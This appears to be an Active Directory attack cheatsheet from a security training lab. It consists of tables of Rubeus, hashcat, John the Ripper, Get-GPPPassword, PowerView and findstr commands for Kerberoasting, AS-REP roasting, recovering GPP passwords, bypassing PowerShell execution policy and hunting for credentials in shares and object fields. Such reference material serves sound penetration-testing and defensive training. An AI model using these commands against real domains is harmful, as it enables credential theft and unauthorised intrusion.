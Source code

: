 






## Cheetsheet
### # Kerberoasting

| Command                                                                                  | Description                                                              |
| ---------------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| `.\Rubeus.exe kerberoast /outfile:spn.txt`                                               | Used to perform the Kerberoast attack and save output to a file.         |
| `hashcat -m 13100 -a 0 spn.txt passwords.txt`                                            | Uses `hashcat` to crack Keberoastable TGS tickets.                       |
| `sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot` | Uses `John the Ripper` to crack TGS tickets, and outputs to results.pot. |

### Asreproasting

|Command|Description|
|---|---|
|`.\Rubeus.exe asreproast /outfile:asrep.txt`|Used to perform the Asreproast attack and save the extracted tickets to a file.|
|`hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`|Uses `hashcat` to crack AS-REP hashes that were saved in a file.|

### GPP Passwords

|Command|Description|
|---|---|
|`Import-Module .\Get-GPPPassword.ps1`|Used to import the `Get-GPPPassword.ps1` script into the current powershell session.|
|`Get-GPPPassword`|Cmdlet to automatically parse all XML files in the Policies folder in SYSVOL.|
|`Set-ExecutionPolicy Unrestricted -Scope CurrentUser`|Used to bypass powershell script execution policy.|

# Credentials in Shares

|Command|Description|
|---|---|
|`Import-Module .\PowerView.ps1`|Used to load the `PowerView.ps1` module into memory|
|`Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess`|PowerShell cmdlet used to identify shares in a domain|
|`findstr /m /s /i "eagle" *.ps1`|Forces a search within the current directory + subdirectories for the .ps1 file containing the string "eagle"|

# Credentials in Object Properties

|Command|Description|
|---|---|
|`.\SearchUser.ps1 -Terms pass`|Script to look for specific terms in the `Description` and `Info` fields of an AD object|
